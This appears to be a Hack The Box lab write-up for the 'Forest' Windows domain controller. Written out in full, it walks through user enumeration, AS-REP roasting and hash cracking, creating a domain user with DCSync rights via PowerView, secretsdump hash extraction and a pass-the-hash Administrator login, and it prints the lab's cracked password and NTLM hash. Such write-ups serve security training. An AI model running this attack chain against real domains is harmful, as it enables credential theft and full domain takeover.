# [Forest](https://app.hackthebox.com/machines/forest)

```bash
nmap -p- -sT --min-rate 10000 10.10.10.161 -Pn 
```



After finding open ports(53,88,135,139,389,445), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,135,139,445 10.10.10.161 -Pn
```



I also scanned UDP ports for my target.

```bash
nmap -p- -sU --min-rate 10000 10.10.10.161 -Pn 
```




Let's try to access RPC.
```bash
rpcclient -U "" -N 10.10.10.161
```

We got usernames from here by typing `enumdomusers` on rpc terminal.




I write usernames into 'users' txt file.



From port (88), we see that it is 'Domain Controller', that's why let's start attacks.

Firstly, we check 'GetNPUsers.py' file to know AS-Rep Roasting attack.

```bash
for user in $(cat users); do python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} ; done 
```




Let's crack password hash of 'svc-alfresco' user.

```bash
hashcat -m 18200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```




Now, we have below credentials.

svc-alfresco:s3rvice


We can access machine via `evil-winrm` tool.

```bash
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
```

user.txt




Now, I check DC Sync attack via this credentials that may be have 'Replication' Permisson which assigned to Admins as default.


Let's check this via `Get-Acl` command.



For more enumeration, let's use `bloodhound`.

```bash
bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -gc forest.htb.local -c all -ns 10.10.10.161
```






Let's upload our *.json data into `bloodhound`.

```bash
neo4j start  #first open console
bloodhound  # second write creds.
```

Then ,we see that our user 'svc-alfresco' have '**WriteDACL**' privilege.




Let's add user via **Replication** privileges and add this user to AD group where we have '**WriteDACL**' privileges.

```bash
net user dr4ks dr4ks123! /add /domain
net group "Exchange Windows Permissions" dr4ks /add
net localgroup "Remote Management Users" dr4ks /add
```




Let's download [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) to give '**Replication**' privileges to our 'dr4ks' user.

```bash
upload PowerView.ps1
```



We execute our malicious PowerView script.
```bash
Import-Module .\PowerView.ps1
```



Then, we do below commands.
```bash
$pass=convertto-securestring "dr4ks123!" -asplain -force
$cred=new-object system.management.automation.pscredential('htb\dr4ks',$pass)
Add-ObjectACL -PrincipalIdentity dr4ks -Credential $cred -Rights DCSync
```


Now, 'dr4ks' user is target for us to do **'DCSync attack'**

Let's do it via `secretsdump.py` script of Impacket.

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py dr4ks:'dr4ks123!'@10.10.10.161
```



Let's grab NTLM hash of 'Administrator'.

Administrator: 32693b11e6aa90eb43d32c72a07ceea6

Let's get a shell via `Pass-The-Hash` attack in which, we login to account without knowing password of account.

```bash
evil-winrm -u administrator -H '32693b11e6aa90eb43d32c72a07ceea6' -i 10.10.10.161
```




root.txt

